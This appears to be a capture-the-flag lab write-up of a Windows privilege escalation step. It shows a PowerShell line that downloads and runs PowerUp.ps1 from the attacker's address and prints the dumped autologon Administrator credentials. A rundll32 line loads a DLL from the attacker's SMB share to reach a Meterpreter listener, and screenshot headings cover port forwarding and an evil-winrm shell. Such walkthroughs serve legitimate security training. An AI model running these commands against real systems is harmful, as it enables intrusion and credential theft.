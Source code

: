 # 30 - PrivEsc 

```powershell
PS C:\inetpub\wwwroot\internal-01\log> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/PowerUp.ps1')
PS C:\inetpub\wwwroot\internal-01\log> Get-RegistryAutoLogon


DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 

PS C:\inetpub\wwwroot\internal-01\log> 
```


# Metasploit
![](vx_images/3038394860356.png)



# Smb_delivery options
![](vx_images/5816682792747.png)

# Run
![](vx_images/3842451609736.png)


# Execute this line of code on the box to connect to meterpreter listener
```powershell
PS C:\inetpub\wwwroot\internal-01\log> rundll32.exe \\10.10.14.12\hGRxjw\test.dll,0
```

# Powershell is connected
![](vx_images/5281694930815.png)

# Go back to the meterpreter session for port forwarding.
![](vx_images/624493423106.png)

# Forward 5985 Windows Remote Management
![](vx_images/4878384160369.png)


# Run evil-winrm and get  a shell
![](vx_images/1856405025383.png)
